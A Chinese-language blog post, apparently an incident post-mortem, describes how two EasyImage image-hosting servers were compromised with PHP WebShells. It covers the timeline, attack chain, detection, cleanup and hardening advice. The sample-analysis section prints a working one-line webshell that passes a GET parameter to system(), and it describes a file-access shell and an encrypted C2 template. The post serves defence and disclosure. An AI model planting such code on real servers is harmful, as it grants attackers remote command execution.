




之前写过用 PicGo 配合 EasyImage 搭图床。当时只关心上传方便、图片能打开，没想过这套组合的安全边界在哪里。

2026 年 11 月 2 日下午，两台图床机器先后被植入了 PHP WebShell。复盘下来，问题不是某个惊天漏洞，而是几处"本来就该收紧"的地方正好凑在了一起。

本文省略服务器 IP、内网地址、账号信息、个人信息、凭据和利用参数；截图中的账号、主机名和 IP 已做打码，样本哈希保留以便比对。

## 事件编号与关键时间线

事件按两份报告归档：

| 编号 | 对象 |
| --- | --- |
| `SEC-2026-1102-TUCHUANG-01` | 主机 A，图床主站 |
| `SEC-2026-1102-XIAOQISHOUJI-02` | 主机 B，同源受害主机（编号含业务名，此处略） |

两台都跑 EasyImage 2.8.1，nginx + PHP-FPM，图片存放在 `/i/` 目录。

关键节点（2026-11-02，北京时间）：

| 时间 | 事件 |
| --- | --- |
| 13:57 | 首次利用文件读取入口，拿走站点配置文件 |
| 14:19–15:25 | 反复读取同一配置，探测后台 |
| 14:59 | 尝试进入后台文件管理器，未携带有效凭据，失败 |
| 15:31–15:32 | 伪造管理员身份成功，上传 3 个 PHP 文件到 `/i/` |
| 15:44 | 云安全检出 4 条告警；脚本被请求，`system()` 调用被阻断 |
| 15:53 | 文件被删除，安全产品的隔离动作落空 |
| 21:40 | 我用 AI 助手跑自动取证，样本复制到 `/tmp`，被文件查杀再报 6 条 |
| 22:13 起 | 主机 B 打快照、隔离样本、修复加固 |

再往前追，10 月 8 日和 10 月 28 日就有未认证访问后台、试探 shell 路径的请求，当时 shell 还不存在，请求返回 404。这说明对方不是随机扫到就收手，而是踩点、拿配置、再回来投递。

## 攻击链：怎么走到"能上传"这一步

### 第一步：文件读取功能被当成任意文件读取

应用里有个按参数读取文件的入口，路径校验不严，加密参数可以由客户端构造。因为配置里的 `hide_key` 还是出厂默认值，攻击者可以离线算出参数，让程序去读任意路径。

### 第二步：配置被读走

攻击者读的是 `config/config.php`，返回约 19 KB。这个文件里存着管理员口令的哈希、`hide_key`、上传路径等关键设置。

这一步之后，性质已经从"信息泄露"变成"凭据泄露"。

### 第三步：伪造身份进后台

EasyImage 的管理员校验基于一个 `auth` Cookie。拿到配置里的材料后，攻击者可以伪造出通过校验的 Cookie。

14:59 那次尝试失败，返回的是"还没有登陆哦"；15:44 再来一次，服务端返回 302 跳转——校验通过，会话建立。

### 第四步：用自带文件管理器上传

进入后台后，攻击者打开的是程序内嵌的 Tiny File Manager，根目录正好指向 `/i/`。三次 `POST` 各返回 200/129 字节，对应三个文件的写入。

响应体当时没保存，所以不能仅凭大小断定内容；但落地文件、上传时间与云安全告警能对上。

### 第五步：上传目录执行了 PHP

这是整条链最致命的一环。`/i/` 本该只存图片，但 nginx 配置里它仍然走 PHP-FPM，`.php` 文件被当成脚本解释。

前四步只是"能读、能进"，第五步才让攻击者获得了代码执行。

一句话总结这条链：**默认密钥 + 路径校验缺陷 → 配置泄露 → 认证被伪造 → 上传目录可执行**。任何一环收紧，后面都走不通。

## 上传了什么：三个 WebShell

三个文件功能不同，明显是配套使用：

| 文件 | 大小 | SHA-256 | 作用 |
| --- | --- | --- | --- |
| `gsl5t.php` | 91 B | `7cb7bb82…cc48c4` | 探活 + 命令执行 |
| `gsl5p.php` | 1,243 B | `42dadfe4…0f2516` | 多功能管理马 |
| `gsl5s.php` | 5,855 B | `f09b1562…422d2e7` | 加密 C2 模板 |

### 91 字节的探活马

内容只有一行，逻辑极简：

```php
<?php
echo "GSL5OK|" . php_uname() . "|" . PHP_VERSION;
if (isset($_GET["c"])) system($_GET["c"]);
```

带上 `?c=命令` 就能执行系统命令，返回里带 `GSL5OK` 作为"我已上线"的标记。三个文件名都以 `gsl5` 开头，和这个标记呼应。

它的作用不是长期驻留，而是确认"脚本能跑、能执行命令"，然后决定下一步。

### 1,243 字节的管理马

带三个参数：`c` 执行命令、`f` 读任意文件、`p`+`d` 写任意文件。

命令执行部分会依次尝试 `shell_exec`、`system`、`passthru`、`exec`、`popen`，调用前还用 `ini_get` 检查哪些函数被禁用。

这个设计很说明问题：作者知道目标机器可能禁了命令执行，所以准备了备选路径。而且**即使五个命令函数全禁**，它仍保有任意文件读写——足够放新马、改模板、改配置。

### 5,855 字节的加密 C2 模板

外层是 gzip + base64 压缩的字符串，只有带 `?v=1` 时才 `eval` 解压执行，磁盘上看不到明文特征。解开后约 10 KB，是一套完整的加密通信框架：

- ECDH P-256 交换密钥，HKDF 派生会话密钥；
- AES-256-GCM 加密数据，密钥存在 `$_SESSION` 里；
- 4 字节长度头 + 随机填充到 256 字节桶，base64url 传输；
- 首包 `eval` 出函数定义，后续包逐条解密执行。

填充和定长分帧的作用是削弱流量指纹——从日志里只能看到一串大小相近的密文帧，看不出执行了什么。

注释里还引用了 Java 客户端和"Protocol Contract"之类的字样，说明这套 PHP 端很可能是从某个现成模板改的，不是一次性手写。

### 能力不等于结果

三个样本的静态能力是一回事，实际跑到哪一步是另一回事：

| 能力 | 91 B | 1,243 B | 5,855 B |
| --- | --- | --- | --- |
| 探活 | ✅ | ❌ | ❌ |
| 命令执行代码 | 有 | 有（5 个函数轮询） | 动态载荷可承载 |
| 任意文件读 | ❌ | ✅ | ✅ |
| 任意文件写 | ❌ | ✅ | ✅ |
| 加密通信 | ❌ | ❌ | ✅ |

本次实际发生的是：脚本被请求、PHP 运行了，但记录中的 `system()` 调用被 `disable_functions` 拦住，命令没有输出。

这不等于"没事"。`file_get_contents`、`file_put_contents`、`fopen`、PDO、openssl 这些并没有被禁，加密通道理论上可以把数据带出去。而且 PHP 进程能读业务配置，也就具备连数据库的条件。

## 怎么发现的

起点是一条云安全推送。文件刚落地两秒，主机 A 的实时监控就抓到了：



*图 1 · 2026-11-02 15:44:52 的恶意文件通知，账号、IP 与主机信息已隐去*

紧接着文件查杀列表里出现了 4 条，其中 3 条严重：



*图 2 · 主机 A 的 4 条告警：3 个 WebShell，外加一个上传临时文件（主机名与 IP 已隐去）*

控制台标着"已清理"。但"文件现在在不在"和"之前发生了什么"是两个问题。于是顺着日志往回查：反复读取配置的请求 → 后台页面请求 → 三次上传 → 脚本被请求。时间对得上，链就闭合了。

### 主机 B：下午的才是入侵

主机 B 有 8 条告警，但只有最下面两条（15:32，红框）是入侵：站点目录下的 `common.php` 被隔离，`/tmp` 里还有一个临时落地文件。



*图 3 · 主机 B 的告警列表，红框是入侵那两条（主机名、IP、域名已隐去）*

上面 6 条都落在 `/tmp/ev129/samples/`，是当晚 21:40 我用 AI 助手跑自动取证、把样本复制到 `/tmp` 时留下的，两两成对，内容其实只有 3 份。取证动作本身也会被文件查杀记成新告警——做时间线时得把自己的操作和入侵分开，否则容易把下午的事和晚上的事混成一件。

两台机器同一天中招，用同一套旧版程序和默认配置，关联性很强。

主机 A 这边还有个日志上的坑：域名当时托管在 Cloudflare，源站记录的对端地址是 CDN 边缘节点，不是攻击者的真实出口。直接拿日志里的 IP 去追，会追错人——真实对端要结合 `real_ip` 配置和 CDN 日志才能还原。

数据风险也一并查了：主机 B 的业务库里有真实客户信息。检查范围内**没有发现**批量导出的证据，但数据库没开审计、也没有出站日志，所以同样**不能排除**已被读取。这两句话必须一起说。

## 怎么处理的

四件事：先留证、再止血、然后修根、最后加固。

- **留证**：处置前给主机 B 打了云硬盘快照，恶意文件移进隔离目录并记录哈希。取证读取、复现请求、修复动作分开记录，别把自己的操作混进攻击时间线。
- **止血**：关闭后台文件管理器，修改管理员口令、`hide_key` 和相关凭据，数据库改为只监听本机，站点先停掉。
- **修根**：修补文件读取入口；最关键的是在 nginx 里禁止 `/i/` 下的 PHP 被解释执行，同时把配置目录设为不可直接访问。
- **加固**：两台程序都升级到 2.8.7，重启服务并验证功能。



*图 4 · 动手前先打系统盘快照，之后的每一步都有回退余地*

拆下来看，真正让攻击者停下的是"上传目录不再执行 PHP"这一条。改密码只能挡住已经泄露的那把钥匙，堵不住下一把。

处置完，我把日志、样本、截图和报告整理成材料，**向公安机关报案**并提交了证据。剩下的就是配合调证，自己把窟窿补好。

## 如何防范

自建图床或类似的 PHP 应用，按优先级排：

1. **上传目录禁止执行脚本**。最划算的一条。nginx 里对 `/i/`、`/upload/` 这类目录直接拒绝 `.php`、`.phtml`、`.phar` 请求，一行规则挡住大部分上传马。
2. **改掉默认密钥和默认口令**。`hide_key`、后台路径、管理员密码，装完第一件事就是换。默认值等于公开值。
3. **及时升级**。补丁永远比你的应急反应快。升级前备份，升级后验证，别只看版本号。
4. **关掉用不上的功能**。后台文件管理器、在线编辑、远程下载，能不用就不用；非要用就限制来源 IP。
5. **权限最小化**。PHP 进程不该能读站点之外的敏感文件；数据库账号不该有 DDL 权限；3306 不该对公网开放。
6. **把日志留下**。开数据库查询审计和出站流量日志。没有日志，出事时只能说"没看到"，说不出"没有"。
7. **先快照再动手**。发现异常别急着删文件，先快照、留哈希、存日志，再清理。删掉的东西找不回来。
